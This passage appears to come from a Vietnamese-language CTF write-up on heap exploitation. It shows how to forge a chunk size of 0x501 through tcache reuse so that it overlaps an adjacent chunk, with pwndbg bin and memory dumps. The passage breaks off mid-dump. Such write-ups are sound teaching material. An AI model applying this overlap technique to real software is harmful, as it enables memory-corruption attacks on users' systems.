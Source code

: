     - Lúc đầu ta sẽ create 1 chunk với size 0x7f rồi free lúc này trong bin sẽ như sau:
        
        ```python
        pwndbg> bin
        tcachebins
        0x110 [  1]: 0x5555555593d0 ◂— 0x0
        0x190 [  1]: 0x5555555592c0 ◂— 0x0
        ```
        
    - Tiếp đến create 1 chunk với size 0x3e0 để overlap với chunk 0x7f ở trên.
    - Create 0x200 để chặn consolidate với top chunk
    - Create lại size 0x7f thì sẽ sử dụng bin trong tcache và lúc này chunk này vẫn nằm trước chunk 0x3e0 và ta edit size chunk này thành 0x501 để overlap chunk 0x3e0.
        
        ```python
        0x5555555593c0: 0x0000000000000000      0x0000000000000501   <- overwrite size
        0x5555555593d0: 0x0000000000000000      0x0000000000000000
        0x5555555593e0: 0x0000000000000000      0x0000000000000000
        0x5555555593f0: 0x0000000000000000      0x0000000000000000
        0x555555559400: 0x0000000000000000      0x0000000000000000
        0x555555559410: 0x0000000000000000      0x0000000000000000
        0x555555559420: 0x0000000000000000      0x0000000000000000
        0x555555559430: 0x0000000000000000      0x0000000000000000
        0x555555559440: 0x0000000000000000      0x0000000000000000
        0x555555559450: 0x0000000000000000      0x0000000000000000
        0x555555559460: 0x0000000000000000      0x0000000000000000
        0x555555559470: 0x0000000000000000      0x0000000000000000
        0x555555559480: 0x0000000000000000      0x0000000000000000
        0x555555559490: 0x0000000000000000      0x0000000000000000
        0x5555555594a0: 0x0000000000000000      0x0000000000000000
        0x5555555594b0: 0x0000000000000000      0x0000000000000000
        0x5555555594c0: 0x0000000000000000      0x0000000000000000
        0x5555555594d0: 0x0000000000000000      0x00000000000003f1   <- chunk overlapped
        0x5555555594e0: 0x00000000000003e0      0x0000000000000000
        0x5555555594f0: 0x0000000000000000      0x0000000000000000
        0x555555559500: 0x0000000000000000      0x0000000000000000
        0x555555559510: 0x0000000000000000      0x0000000000000000
        0x555555559520: 0x0000000000000000      0x0000000000000000
        0x555555559530: 0x0000000000000000      0x0000000000000000
        0x555555559540: 0x0000000000000000      0x0000000000000000
        0x555555559550: 0x0000000000000000      0x0000000000000000
        0x555555559560: 0x0000000000000000      0x0000000000000000
        0x555555559570: 0x0000000000000000      0x0000000000000000
        0x555555559580: 0x0000000000000000      0x0000000000000000
        0x555555559590: 0x0000000000000000      0x0000000000000000
        0x5555555595a0: 0x0000000000000000      0x0000000000000000
        0x5555555595b0: 0x0000000000000000      0x0000000000000000
        0x5555555595c0: 0x0000000000000000      0x0000000000000000
        0x5555555595d0: 0x0000000000000000      0x0000000000000000
        0x5555555595e0: 0x0000000000000000      0x0000000000000000
        0x5555555595f0: 0x0000000000000000      0x0000000000000000
        0x555555559600: 0x0000000000000000      0x0000000000000000
        0x555555559610: 0x0000000000000000      0x0000000000000000
        0x555555559620: 0x0000000000000000      0x0000000000000000
        0x555555559630: 0x0000000000000000      0x0000000000000000
        0x555555559640: 0x0000000000000000      0x0000000000000000
        0x555555559650: 0x0000000000000000      0x0000000000000000
        0x555555559660: 0x0000000000000000      0x0000000000000000
        0x555555559670: 0x0000000000000000      0x0000000000000000
        0x555555559680: 0x0000000000000000      0x0000000000000000
        0x555555559690: 0x0000000000000000      0x0000000000000000
        0x5555555596a0: 0x0000000000000000      0x0000000000000000
        0x5555555596b0: 0x0000000000000000      0x0000000000000000
        0x5555555596c0: 0x0000000000000000      0x0000000000000000
        0x5555555596d0: 0x0000000000000000      0x0000000000000000